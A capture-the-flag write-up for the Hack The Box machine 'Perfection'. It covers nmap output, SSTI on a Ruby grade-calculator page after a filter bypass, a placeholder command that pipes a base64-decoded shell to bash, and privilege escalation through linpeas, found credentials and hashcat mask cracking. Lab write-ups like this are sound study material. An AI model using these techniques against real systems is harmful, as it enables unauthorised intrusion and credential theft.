<h1 align="center"> Perfection </h1>

<p align="center">
    <a href="https://app.hackthebox.com/machines/590">
        
    </a>
</p>

## Table of Contents

1. [Service Enumeration](#1-recon)
2. [Service analysis on TCP/80](#2-tcp-80)
3. [SSTI](#3-ssti)
4. [Privilege Escalation](#4-user-to-root)
5. [Pwned Info](#pwned-info)

## 1. Recon

```bash
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.253
Nmap scan report for 10.10.11.253
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar  4 10:05:28 2024 -- 1 IP address (1 host up) scanned in 19.30 seconds
```

## 2. TCP-80

There is an active service on port 80 ! 

<p align="center">
  
</p>

The server name and version are shown at the bottom of the page.

<p align="center">
  
</p>

Searching for [WEBrick/1.7.0](https://rubygems.org/gems/webrick/versions/1.7.0) on the internet reveals that it is written in Ruby.

More interesting is the *weighted-grade-calc* page.

<p align="center">
  
</p>

## 3. SSTI

Knowing that the server is written in Ruby and not being able to perform an XSS, I started trying to perform an SSTI, but once again I got the response "malicious input".

<p align="center">
  
</p>

Looking for a way to bypass the malicious input check, I found a [repository](https://github.com/attackercan/regexp-security-cheatsheet) where there are various bypasses, I started trying them until I got an answer back.

<p align="center">
  
</p>


So we can have a shell with the following command: `system("echo <base64 encoded of a bash shell>" | base64 -d | bash")`.

<p align="center">
  
</p>

In the home directory there is the user flag.

## 4. User to ROOT

For privilege escalation I used [linpeas] to search for relevant information, first of all, credentials.

<p align="center">
  
</p>

<p align="center">
  
</p>

For a better print I used *strings*.

<p align="center">
  
</p>

In addition to the credentials I found an email.

<p align="center">
  
</p>

By analyzing it, the structure of the password is reported.

<p align="center">
  
</p>

So I use hashcat with a mask that creates the structure reported in the email.

<p align="center">
  
</p>

Now we can become superuser.

<p align="center">
  
</p>

In */root* there is the root flag.

## Pwned Info

<p align="center">
    <a href="https://www.hackthebox.com/achievement/machine/805273/590">
        
    </a>
</p>